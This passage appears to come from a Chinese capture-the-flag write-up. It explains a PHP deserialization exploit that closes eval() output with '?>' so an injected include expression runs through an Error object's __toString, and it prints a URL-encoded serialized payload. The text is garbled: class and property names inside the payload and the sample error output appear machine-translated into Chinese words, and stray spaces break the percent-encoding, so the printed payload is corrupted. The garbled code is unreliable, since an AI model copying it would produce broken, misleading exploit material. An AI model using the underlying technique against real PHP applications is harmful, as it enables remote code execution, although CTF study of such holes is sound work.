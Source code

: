 `这里`$str =
"?>";`为什么要在前面加上一个`?>`呢？因为`Exception`类与`Error`的`__toString`方法在eval()函数中输出的结果是不可能控制的，即输出的报错信息中，payload前面还有一段杂乱信息“Error:
”：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3  
    

|

    
    
    错误：/usercode/file.php 中的有效负载：2  
    堆栈跟踪：  
    #0 {main}  
      
  
---|---  
  
`  
`

`进入的eval（）函数会类似于：`eval("...Error: ")`。我们所以要用`?>`来闭合一下，即`eval("...Error:
?>")`，这样我们的有效载荷便能顺利执行了。`

`生成的payload如下：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O% 3 A8% 3 A% 22 SYCLOVER% 22 % 3 A2% 3 A% 7 Bs% 3 A3% 3 A% 22 syc% 22 % 3 BO% 3 A5% 3 A% 22错误% 22 % 3 A7% 3 A% 7 Bs% 3 A10% 3 A% 22 % 00 % 2 A% 00消息% 22 % 3 Bs% 3A20% 3 A% 22 % 3 F% 3 E% 3 C% 3 F% 3 Dinclude% 7 E%D0% 99 % 93 % 9 E% 98 % 3 F% 3 E% 22 % 3 Bs% 3 A13% 3 A% 22 % 00错误% 00字符串% 22 % 3 Bs% 3 A0% 3 A% 22 % 22 %3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00代码% 22 % 3 Bi% 3 A1% 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00文件% 22 % 3 Bs % 3 A18% 3 A% 22 % 2 Fusercode% 2 Ffile.php% 22 % 3 Bs% 3 A7% 3 A%22 % 00 % 2 A% 00线% 22 % 3 Bi% 3 A19% 3 Bs% 3 A12% 3 A% 22 % 00误差% 00迹线% 22 % 3 Ba% 3 A0% 3 A% 7 B% 7 Ds% 3 A15% 3 A% 22 % 00错误% 00先前% 22 % 3 BN% 3 B%7 Ds% 3 A5% 3 A% 22情人% 22 % 3 BO% 3 A5% 3 A% 22错误% 22 % 3 A7% 3 A% 7 Bs% 3 A10% 3 A% 22 % 00 % 2 A% 00消息% 22 % 3 Bs% 3 A20% 3 A% 22 % 3 F% 3 E% 3 C% 3 F%3 Dinclude% 7 E%D0% 99 % 93 % 9 E% 98 % 3 F% 3 E% 22 % 3 Bs% 3 A13% 3 A% 22 % 00错误% 00字符串% 22 % 3 Bs% 3 A0% 3 A% 22 % 22 % 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00代码% 22 % 3 Bi% 3 A2% 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00文件% 22 % 3 Bs% 3 A18% 3 A% 22 % 2 Fusercode% 2 Ffile.php% 22 % 3 Bs% 3 A7% 3 A% 22 % 00 % 2 A% 00线% 22 % 3 Bi% 3A19% 3 Bs% 3 A12% 3 A% 22 % 00错误% 00跟踪% 22 % 3 Ba% 3 A0% 3 A% 7 B% 7 Ds% 3 A15% 3 A% 22 % 00错误% 00以前% 22 % 3 BN% 3 B% 7 D% 7 D  
      